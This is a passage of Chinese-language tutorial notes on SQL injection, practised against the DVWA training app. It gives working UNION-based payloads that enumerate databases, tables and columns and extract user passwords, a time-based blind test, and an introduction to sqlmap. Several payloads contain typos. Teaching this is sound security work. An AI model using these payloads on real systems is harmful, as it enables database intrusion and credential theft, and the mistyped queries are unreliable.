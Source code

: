 ```mysql
# database() 获取当前数据库名
# user() 获取当前用户名
'union select version(),database() -- '
'union select user(),database() -- '
mysql> select first_name,last_name from dvwa.users where user_id='' union select version(),database() -- ''

# 查询数据库中所有表
# information_schema数据库是MySQL自带的，提供了访问数据库元数据的方式
# 元数据包括数据库名、表名、列数据类型、访问权限、字符集等基础信息

# SQL注入语句解析
mysql> select * from information_schema.TABLES\G

# 查询所有库名
' union select TABLE_SCHEMA,1 from INFORMATION_SCHEMA.TABLES -- '
# 发现只有两个库，说明当前权限下只能看到两个库

# 查看所有库中的所有表名 同时查询表名和对应的库名
' union select TBALE_SCHEMA，table_name from INFORMATION_SCHEMA.tables -- '

# 查询数据表
' union select 1, column_name from INFORAMTION_SCHEMA.columnswjere table_name = 'user' -- '

# 查询数据列
# 此处未写库名，在sql注入中就是当前的库
' union select NULL, user from users -- '
' union select NULL, password from users -- '
' union select user, password from users -- '
# 把其他字段组合到一起
' union select password, concat(first_name, ' ', last_name, ' ', user) from users -- '
```


### 基于时间的盲注

有些数据库对错误信息做了安全配置，使得无法通过以上的方式探测到注入点，此时可以通过**设置 sleep 语句**来探测注入点

SQL Injection (Blind) 盲注

- 输入单引号没反应

  ```mysql
  1' and sleep(5) -- 
  # 说明我们给定的附加语句可以执行
  ```


## sqlmap 自动化注入

SQL 注入比较好用的工具，首推开源工具 SQLmap，是一个国内外著名的安全稳定性测试工具，可以用来进行自动化检测，利用 SQL 注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎、针对各种不同类型数据库的安全稳定性测试的功能选项，包括获取数据库中储存的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令

SQLmap 支持 MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird、Sybase 和 SAP MaxDB 等数据库的各种安全漏洞检测
